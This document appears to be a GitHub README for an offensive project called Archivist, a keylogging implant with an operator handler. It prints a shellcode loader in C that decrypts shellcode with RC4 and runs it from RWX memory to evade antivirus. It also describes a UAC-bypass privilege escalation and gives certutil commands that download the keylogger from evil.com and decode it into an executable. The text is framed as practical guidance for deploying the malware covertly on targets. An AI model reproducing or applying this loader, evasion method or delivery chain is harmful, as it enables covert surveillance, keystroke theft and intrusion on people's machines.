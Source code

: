 ## Beta Development 

All files relevant to the development of this project can be found here. 

The directory structure is as follows.

```
└── Beta
    ├── archivist.py
    ├── assets
    │   ├── chroma.py
    │   ├── __init__.py
    │   ├── __init__.pyc
    │   ├── main.py
    │   ├── README.md
    │   ├── tests
    │   │   ├── __init__.py
    │   │   └── upload_test.py
    │   └── uploader
    │       ├── base.py
    │       ├── catbox.py
    │       ├── fileio.py
    │       ├── __init__.py
    │       ├── mixtape.py
    │       └── uguu.py
    ├── binary_to_hex.py
    ├── console.py
    ├── exploits
    │   ├── AV-Evasion
    │   │   ├── AVWinD.exe
    │   │   └── windefexe.c
    │   └── Priv-Esc
    │       ├── ExamplePayload
    │       │   ├── Payload.cpp
    │       │   ├── Payload.exe
    │       │   └── Readme.md
    │       ├── PerformanceMonitorVolatileEnvironmentLPE
    │       │   ├── c_cpp_properties.json
    │       │   ├── PerformanceMonitorVolatileEnvironmentLPE.cpp
    │       │   ├── PerformanceMonitorVolatileEnvironmentLPE.vcxproj
    │       │   └── PerformanceMonitorVolatileEnvironmentLPE.vcxproj.filters
    │       ├── PerformanceMonitorVolatileEnvironmentLPE.sln
    │       └── README.md
    ├── REAME.md
    └── Scripts
        ├── helper.bat
        ├── README.md
        ├── shell.py
        └── shell.vbs

```
### About

`archivist.py` Is the main keylogging implant.
`console.py` Will be Archivists handler, facilitating comms between the implant
and operator.

These files are in active development.

The `binary_to_hex.py` file is here because it will potentially be incorperated into the way the
keylogger is going to be deployed. If you go to the `exploits/AV-Evasion` directory in this repo there will be a C
file there the contents of which look a little like those  below.

```
#include <Windows.h>
#include <rc4.h>

// The encrypted code allows us to get around static scanning
unsigned char buf[] = 
"\x67\xc6\xe9\xe7\x07\x0a\x37\x3b\x63\xf0\xfd\x02\xc3\x23\xcd" // Truncated 
"\xf3\xbe\x80\x69\x18\x24\xb3\xf9\x96\x3e";		       // Truncated 


int main() {
  int lpBufSize = sizeof(int) * 700;
  LPVOID lpBuf = VirtualAlloc(NULL, lpBufSize, MEM_COMMIT, 0x00000040);
  memset(lpBuf, '\0', lpBufSize);

  HANDLE proc = OpenProcess(0x1F0FFF, false, 4);
  // Checking NULL allows us to get around Real-time protection
  if (proc == NULL) {
    RC4("vXJDRPBUBnXKFphOMNzDZTCjnpbYhYDIMPBoYGotFWsBegm", buf, (char*) lpBuf, 700);
    void (*func)();
    func = (void (*)()) lpBuf;
    (void)(*func)();
  }

  return 0;
}
```

The payload is represented by the shell code you can see above. This 
shell code can be replaced by custom shell code. Which is what we are going to 
do. 

Once the main logger file has been compiled we will use the `binary_to_hex.py`
script to get a representation of the binary data in hex/shell code. Running
`use windows/windows_defender_exe` in `msfconsole` and setting the payload, to
our custom shell code we will end up with an executable that will attempt to 
make it harder for Windows Defender to get in the way of our keylogging operations.

Of course the keylogger itself has some anti-forensic and AV evasion routines
itself but a little more might be helpful.


Also in the `exploits` directory can be found a C++ file and some related project files.
This is a privilege escalation exploit originally developed by Martin Fischer of Bytecode77.
Whom you can find on github by clicking [here](https://github.com/bytecode77) and
online over at his [website](https://bytecode77.com). (I suggest checking both out
he's got some really cool projects there.)

The exploit makes it so our binary keylogger file gets auto-elevated through Volatile Environment and
perfmon.exe. 


On the question of how to get the malware to the target, i will leave that up
to your imagination. However `Magic Unicorn Attack Vector` by [Dave Kennedy](https://twitter.com/HackingDave)
from [TrustedSec](https://trustedsec.com) has the ability to encode a binary as cert file.

`python unicorn.py <path_to_payload/exe_encode> crt`

The beauty of this is that the `certutil` tool on Windows can be used to both download and
restore the encoded files back to `exe`. If you're able to run:

```
certutil -urlcache -split -f http://evil.com/keylogger.crt keylogger.crt
certutil -decode keylogger.crt keylogger.exe
```

Through remote code execution, or vector of your preference this would be a pretty effective way of delivering the malware.   
